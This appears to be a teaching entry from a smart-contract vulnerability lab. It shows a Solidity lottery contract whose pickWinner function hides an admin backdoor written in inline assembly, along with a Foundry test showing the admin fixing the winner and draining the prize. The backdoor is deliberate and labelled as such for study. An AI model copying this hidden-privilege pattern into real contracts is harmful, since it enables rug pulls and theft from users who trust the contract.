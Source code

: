 # Hidden Backdoor in Contract 
[Backdoor-assembly.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Backdoor-assembly.sol)   
**Name:** Hidden Backdoor in Contract:

**Description:**  
In this contract, an apparently fair 'LotteryGame' contract is subtly designed to allow
a hidden privilege to the contract deployer/administrator.
This is achieved through the use of assembly level access to storage variables,
where a referee function is designed to provide an administrative backdoor.
The 'pickWinner' function appears to randomly pick a winner, but in reality,
it allows the administrator to set the winner.
This bypasses the usual access controls and can be used to drain the prize `pool`
by an unauthorized user, acting as a type of rug pull.

An attacker can manipulate smart contracts as a backdoor by writing inline assembly.
Any sensitive parameters can be changed at any time.
``  
**Scenario:**  
Lottery game: anyone can call pickWinner to get prize if you are lucky.
Refers to JST contract backdoor. many rugged style's contract has similar pattern.
Looks like theres is no setwinner function in contract, how admin can rug?

**LotteryGame** **Contract:**  
```
contract LotteryGame {
    uint256 public prize = 1000;
    address public winner;
    address public admin = msg.sender;

    modifier safeCheck() {
        if (msg.sender == referee()) {
            _;
        } else {
            getkWinner();
        }
    }

    function referee() internal view returns (address user) {
        assembly {
            // load admin value at slot 2 of storage
            user := sload(2)
        }
    }

    function pickWinner(address random) public safeCheck {
        assembly {
            // admin backddoor which can set winner address
            sstore(1, random)
        }
    }

    function getkWinner() public view returns (address) {
        console.log("Current winner: ", winner);
        return winner;
    }
}
```
****How to Test:****

forge test --contracts src/test/**Backdoor-assembly.sol** -vvvv

```
// Define a public function named testBackdoorCall
function testBackdoorCall() public {
    // Declare two addresses, alice and bob, and set their values to the addresses retrieved from vm.addr() with IDs 1 and 2, respectively.
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // Deploy a new instance of the LotteryGame contract and store the reference in LotteryGameContract variable.
    LotteryGameContract = new LotteryGame();

    // Print a message indicating that Alice is going to call pickWinner function, but she won't actually be the winner.
    console.log("Alice performs pickWinner, of course she will not be a winner");

    // Call the prank function of vm with Alice's address as an argument, implying some manipulation may occur.
    vm.prank(alice);

    // Call the pickWinner function of LotteryGameContract, passing Alice's address as an argument.
    LotteryGameContract.pickWinner(address(alice));

    // Print the current prize of the lottery after the pickWinner function call.
    console.log("Prize: ", LotteryGameContract.prize());

    // Print a message indicating that the admin is going to set the winner to drain out the prize.
    console.log("Now, admin sets the winner to drain out the prize.");

    // Call the pickWinner function of LotteryGameContract again, but this time passing Bob's address as an argument.
    LotteryGameContract.pickWinner(address(bob));

    // Print the address of the winner as manipulated by the admin.
    console.log("Admin manipulated winner: ", LotteryGameContract.winner());
```
Red box: malicios owner can win the lottery.  
![Alt text](image-10.png)